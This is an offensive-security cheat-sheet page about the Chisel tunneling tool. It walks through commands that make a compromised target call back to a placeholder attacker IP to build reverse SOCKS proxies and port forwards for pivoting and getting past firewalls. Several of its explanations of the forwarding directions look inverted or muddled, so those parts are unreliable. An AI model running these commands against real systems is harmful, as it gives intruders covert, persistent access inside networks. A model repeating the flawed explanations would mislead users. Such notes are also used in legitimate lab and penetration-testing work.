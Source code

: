 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured with SSH. It's a powerful and versatile tool for creating reverse shells, setting up SOCKS proxies for pivoting, and forwarding ports in a highly flexible manner. Chisel is often preferred over standard SSH for its performance, ease of use in certain scenarios, and ability to bypass restrictive firewall rules that might block SSH directly.

## Download & Install:

Download the appropriate static binary from the Chisel GitHub releases page for your attacker machine and the target architecture. Transfer the client binary to the target machine.

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Basic Concepts:

* Server Mode: Chisel listens for incoming connections.
* Client Mode: Chisel connects to a Chisel server.

## Common Use Cases:

### Setting up a SOCKS5 Proxy for Pivoting:

1.  On your attacker machine (server):

    ```bash
    chisel server --reverse --port 8000
    ```

    This starts a Chisel server on port 8000, allowing a client to connect back and create a reverse tunnel. The `--reverse` flag enables reverse SOCKS proxy support.
2.  On the compromised target (client):

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 R:socks
    ```

    The target connects to your attacker machine. `R:socks` tells the client to create a _reverse_ SOCKS proxy. When this connects, a SOCKS5 proxy will be available on your attacker machine's `localhost:1080` (by default, or a random high port if 1080 is in use, check chisel's output).

You can then configure `proxychains` or your browser to use `localhost:1080` as a SOCKS5 proxy to pivot through the compromised machine.

### Reverse Port Forwarding:

(Exposing a local service to the target)

1.  On your attacker machine (server):

    ```bash
    chisel server --port 8000
    ```
2.  On the compromised target (client): Suppose you have a local HTTP server on your machine on port 8080 that you want the target to access.

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 R:80:localhost:8080
    ```

    This tells the target to open port `80` on its localhost, and any traffic to that port will be forwarded to your attacker machine's `localhost:8080`.

### Local Port Forwarding:

(Accessing a target service from your machine)

1.  On your attacker machine (server):

    ```bash
    chisel server --port 8000
    ```
2.  On the compromised target (client): Suppose the target has an internal web server at `192.168.1.50:80`.

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 L:8080:192.168.1.50:80
    ```

    This creates a local forward on your attacker machine (where the `chisel server` is running) such that `localhost:8080` will connect to `192.168.1.50:80` through the tunnel.
